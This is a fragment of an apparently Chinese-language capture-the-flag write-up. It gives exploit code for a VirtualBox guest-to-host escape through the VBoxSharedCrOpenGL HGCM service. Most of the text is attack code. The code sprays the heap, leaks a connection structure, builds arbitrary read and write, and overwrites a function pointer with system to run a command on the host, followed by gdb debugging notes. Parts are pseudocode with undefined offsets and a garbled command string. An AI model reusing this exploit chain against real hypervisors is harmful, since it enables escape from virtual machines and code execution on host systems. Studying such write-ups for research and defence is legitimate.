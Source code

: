     ```python
    arb_read(where, n):
    	# 将pConn->pHostBuffer修改为where
    	arb_write(pConn+OFFSET_CONN_HOSTBUF,where)
    	arb_write(pConn+OFFSET_CONN_HOSTBUFSZ,n)
    	# 通过SHCRGL_GUEST_FN_READ读取where的内容，client3实际上会占据之前释放的crclient堆块
    	hgcm_call(client3, SHCRGL_GUEST_FN_READ, ['A'*0x1000,0x1000])
    ```

- EXP

    ```python
    # 1.heap_spray
    alloc_buf(0x9d0) & alloc_buf(0x290) for i in range(600)
    newclient = hgcm_connect('VBoxSharedCrOpenGL')
    #alloc_buf(0x9d0) & alloc_buf(0x290)
    hgcm_disconnect(newclient)
    # 2.leak connection
    msg = CR_GETUNIFORMLOCATION_EXTEND_OPCODE, 0x248
    pClient = crmsg(client1, msg, 0x290) #会释放0x290的msg
    pConn = pClient + 0x9e0
    client3 = hgcm_connect('vBoxSharedCrOpenGL') #client3会占据newclient的位置
    # 3.setup write
    msg = CR_SHADERSOURCE_EXTEND_OPCODE, [0,2,0,1,0x1a+2]
    uiIds = [alloc_buf(client, len(msg), msg) for i in range(1000)]
    _,res,_ = hgcm_call(client, SHCRGL_GUEST_FN_WRITE_READ_BUFFERED, [uiIds[-5],'A'*50, 0x50])
    over_uiId = 0x0a0a0000+uiIds[-4]
    # 4. read Free
    HGCMFree = arb_read(pConn+OFFSET_CONN_FREE,8)
    libbase = HGCMFree - offset(0x20650)
    system = arb_read(libbase+0x22e3d0,8)
    arb_write(pConn+0x128, system)
    arb_write(pConn, "mousepad /home/c3mousepad /home/c3ctf/Desktop/flag.txt\x00")
    ```

[exp](https://www.notion.so/exp-6706aaa7d638400295eeeeecbefdcd1e)

## 问题

1. 结构体偏移`gef> pahole CRClient`
2. 调试

```bash
$ VBoxHeadless -s <vmname> &
$ sudo gdb -p $(pgrep -f vmname) -ex c
```
